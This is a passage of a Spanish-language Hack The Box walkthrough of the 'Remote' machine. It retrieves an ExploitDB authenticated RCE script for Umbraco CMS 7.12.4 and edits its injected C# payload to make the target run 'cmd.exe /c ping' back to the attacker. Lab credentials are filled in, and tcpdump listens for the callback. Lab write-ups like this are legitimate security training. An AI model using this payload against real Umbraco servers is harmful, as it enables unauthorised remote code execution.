 ```bash
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

<br>

<h3 id="PruebaExp">Probando Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution</h3>

Vamos a usar el primero, aunque al parecer ambos son lo mismo:
```bash
searchsploit -m aspx/webapps/46153.py
  Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46153
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46153.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/berserkwings/Escritorio/HTB/Retired_Easy_machines/Remote/OSCP_Style/MiManera/46153.py
```

Le cambiamos el nombre:
```bash
mv 46153.py Umbraco_Exploit.py
```

Y lo analizamos de arriba hacia abajo:
```python
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\

login = "";
password="";
host = "";
```

Como se observa, nos pide 3 datos que ya tenemos y además esta esa parte del código en donde al parecer podemos inyectar algún comando como el Exploit que usamos en la máquina **Bounty Hunter**, vamos a llenar los datos que nos pide y vamos a probar con una **Traza ICMP*** para ver si funciona el Exploit:
```python
{ string cmd = "/c ping 10.10.14.9"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";
```

Levantamos un servidor que acepte la **Traza ICMP** con **tcpdump**:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
